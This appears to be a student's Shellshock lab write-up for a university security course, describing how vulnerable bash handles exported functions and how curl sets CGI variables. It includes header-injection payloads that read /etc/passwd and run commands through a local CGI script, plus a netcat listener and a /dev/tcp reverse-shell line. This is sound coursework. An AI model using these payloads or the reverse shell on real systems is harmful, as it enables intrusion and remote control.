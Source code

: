 Task1: "/bin/bash_shellshock" echo $foo didn't print foo as environment but "declare -f foo" printed the definition of foo as a function due to the 
    vulnerability of bash_shellshock.
    "bin/bash" echo $foo printed foo as an environment variable which has been passed by the parent, but "declare -f foo" didn't print the definition 
    since it is not considered as a function since it is not considered asa  function. 
    
 Task2: -v prints out the variables and values from the http packet. 
        -A sets the HTTP_USER_AGENT variable
        -e sets the HTTP_REFERER variable
        -H "AAAAAA: BBBBBB" creates HTTP_AAAAAA and sets it to value BBBBBB
        
        the -H, -A and -e can be used to create arbitary variables. 
        
        
        ![Comp seclab2 2.2.1v](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.1v.JPG)
        
       ![Comp seclab2 2.2.2A](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.2A.JPG)
        
       ![Comp seclab2 2.2.3e](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.3e.JPG)
        
        ![Comp seclab2 2.2.4H](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.4H.JPG)
        
        
        
  Task3: curl -A "() { echo; cat /etc/passwd;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; bin/id;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; touch /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; rm /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         It is only a writable file. 
         
         
         ![Comp seclab2 3.1](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%203.1.JPG)
         
         
 Task4: "nc -lv 9090" on the attacker machine
         The attacker machine acts as a linstener till it finds traffic in the same port it is listening to. 
         "bin/bash -i > /dev/tcp/10.2.6/9090 0<&1 2>&1
         In real attacks we have to inject the code in the victims machin; yet, for demonstration purposes, we're running the command directly on the victims machine. 
Task5: The attack was possible with "bash" intstead of "bash_shellshock"
